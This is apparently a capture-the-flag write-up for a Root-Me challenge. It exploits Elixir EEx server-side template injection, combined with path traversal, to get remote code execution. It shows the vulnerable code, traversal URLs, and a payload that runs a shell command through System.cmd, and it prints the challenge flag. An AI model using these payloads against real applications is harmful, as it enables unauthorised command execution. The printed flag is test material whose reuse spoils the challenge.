 ```yaml
---
layout: default
title: Elixir-EEx
---
```


In this challenge we exploit `SSTI` in `Elixir`.

The vulnerable code is in `template_engine.ex` file:
```elixir
defmodule CloudService.TemplateEngine do
  def render_view(view, bindings \\ []) do
    filepath = Path.join ["lib/views", view <> ".eex"]

    case File.read filepath do
      {:ok, file} -> EEx.eval_string(file, assigns: bindings)
      {:error, error} -> raise "internal server error (#{Atom.to_string error})"
    end
  end
end
```

As you can see, it uses `eval_string`, so if we'll manage to execute our own `view`, we can achieve `RCE`.

In addition, we exploit `Path Traversal` vulnerability, here:
```
http://challenge01.root-me.org:59089/?page=index
```

For example, we can ask for this, and it still works:
```
http://challenge01.root-me.org:59089/?page=../../lib/views/index
```

So, first let's check for this vulnerability, this will be our payload, of course base64 encoded:
```
<%= 7 * 7 %>
```
![send payload](./images/Elixir-EEx_payload.png)

![SSTI poc](./images/Elixir-EEx_SSTI_poc.png)

Then, will read `flag.txt` using this payload, of course base64 encoded:
```
<%= elem(System.cmd("/bin/sh", ["-c", "cat flag.txt"]), 0) %>
```

![FINAL](./images/PHP-Unserialize-overflow_FINAL.png)

**Flag:** ***`RM{EEx_C@n_b3_DanGeR0u$:)!}`***
